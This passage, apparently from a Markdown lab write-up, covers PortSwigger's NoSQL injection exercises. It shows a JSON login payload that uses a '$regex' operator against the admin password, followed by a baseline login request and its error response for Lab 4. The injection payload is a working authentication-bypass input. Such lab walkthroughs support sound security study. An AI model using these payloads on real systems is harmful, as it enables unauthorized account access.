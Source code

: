     ```json
    {"username":"admin","password":{"$regex":"^a*"}}
    ```

??? example "PortSwigger NoSQL Injection Lab 4: Exploiting NoSQL operator injection to extract unknown fields"

	We can send the original login request...note the "Invalid username or password" message.
	
	```
	POST /login HTTP/1.1
	Host: 0aaf00b403c88ba381e42f4700b500d4.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Referer: https://0aaf00b403c88ba381e42f4700b500d4.web-security-academy.net/login
	Content-Type: application/json
	Content-Length: 42
	Origin: https://0aaf00b403c88ba381e42f4700b500d4.web-security-academy.net
	Connection: keep-alive
	Cookie: session=i4eqOjus4JQrGjGabfK4wcmKZO9nu1T6
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=0
	
	{"username":"carlos","password":"invalid"}
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: text/html; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 3392
	
	[...SNIP...]
	
	                <section>
	                    <p class=is-warning>Invalid username or password</p>
	                    <form class=login-form method=POST action="/login">
	                        <label>Username</label>
	                        <input required type=username name="username" autofocus>
	                        <label>Password</label>
	                        <input required type=password name="password">
	                        <a href=/forgot-password>Forgot password?</a>
	                        <br />
	                        <button class=button onclick="event.preventDefault(); jsonSubmit('/login')"> Log in </button>
	                        <script src='/resources/js/login.js'></script>
	                    </form>
	                </section>
	```
	
